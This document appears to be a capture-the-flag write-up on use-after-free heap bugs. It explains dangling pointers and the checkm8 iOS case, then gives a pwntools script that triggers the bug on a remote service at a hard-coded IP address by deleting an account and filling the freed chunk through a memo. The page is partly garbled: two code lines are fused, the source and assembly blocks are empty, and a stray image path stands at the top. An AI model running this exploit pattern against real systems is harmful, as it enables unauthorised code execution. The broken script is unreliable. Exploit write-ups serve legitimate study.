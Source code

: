 
If you first create an account the pointer used for dynamic memory allocation will point at the end of the chunk.
If you delete it, then the pointer, instead of being set to null continues to refer to the now-freed memory, the result is a dangling pointer.


How UAF occurs

UAF vulnerabilities stem from the mechanism of dynamic memory allocation. Unlike the stack, dynamic memory (also known as the heap) is designed to store large amounts of data. Programmers can allocate blocks of arbitrary size in it, which tasks within a program can then either modify or free and return to the heap for subsequent use by other tasks in the same program.

Because dynamic memory is reallocated repeatedly, programs need to check constantly which sections of the heap are free and which are occupied. Here, headers help by referencing allocated memory areas. Each header contains the starting address of the corresponding block. UAF bugs arise when programs do not manage these headers properly.

Here’s how it happens. Pointers in a program refer to data sets in dynamic memory. If a data set is deleted or moved to another block but the pointer, instead of being cleared (set to null), continues to refer to the now-freed memory, the result is a dangling pointer. If the program then allocates this same chunk of memory to another object (for example, data entered by an attacker), the dangling pointer will now reference this new data set. In other words, UAF vulnerabilities allow for code substitution.

Potential consequences of UAF exploitation include:

    Data corruption,
    Program crashes,
    Arbitrary code execution.

Exploiting UAFs

An attacker can use UAFs to pass arbitrary code — or a reference to it — to a program and navigate to the beginning of the code by using a dangling pointer. In this way, execution of the malicious code can allow the cybercriminal to gain control over a victim’s system.

For example, to exploit the UAF vulnerability checkm8 in some iOS devices an attacker can initiate a USB-based update of the device firmware, and then instead of the firmware image, send a command to the device to exit DFU (Device Firmware Update) recovery mode. When the system tries to restart in this mode to terminate the aborted session, the attacker can pass arbitrary code to the device and execute it at the address of the buffer that was allocated before exiting and whose pointer was not cleared.


```assembly

```
exploit
```python
from pwn import *
from time import sleepp = remote("178.128.160.242",32219)
p.recvline("Please enter an operation number:")
sleep(1)
p.sendline("1")
sleep(1)
p.recvline("First name:")
p.sendline("")
sleep(1)
p.recvline("Last name:")
p.sendline("")
sleep(1)
p.recvline("Please enter an operation number:")
p.sendline("3")
p.recvline("Account deleted successfully")
sleep(1)
p.recvline("Please enter an operation number:")
p.sendline("4")
sleep(1)
p.recvline("Please enter memo:")
p.sendline("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAfuck")
p.recvline("Thank you, please keep this reference number number safe:")
sleep(1)
p.recvline("Please enter an operation number:")
p.sendline("5")
p.interactive()
```
